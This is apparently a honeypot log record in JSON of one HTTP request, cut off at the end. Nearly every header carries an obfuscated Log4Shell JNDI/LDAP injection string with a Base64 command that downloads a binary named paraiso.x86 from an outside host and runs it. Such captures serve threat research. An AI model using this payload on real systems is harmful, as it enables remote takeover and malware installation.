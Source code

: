 ````json
{"time":"2024-02-03T00:16:21.182519","headers":{"accept":"application/json, text/plain, */*","x-api-version":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","user-agent":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","referer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cookie":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","authentication":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","bearer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cf-connecting_ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-forwarded-for":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-real-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-client-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","originating-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","host":"54.67.87.80:8080","connection":"close"},"sip":"95.214.53.99","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":["t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')"],"version":"HTTP/1.1","response_id":{"comment":null,"headers":{"Server":"Apache/3.2.3","Access-Control-Allow-Origin":"*","content-type":"text/plain"},"status_code":200},"signature_id":{"max_score":7
````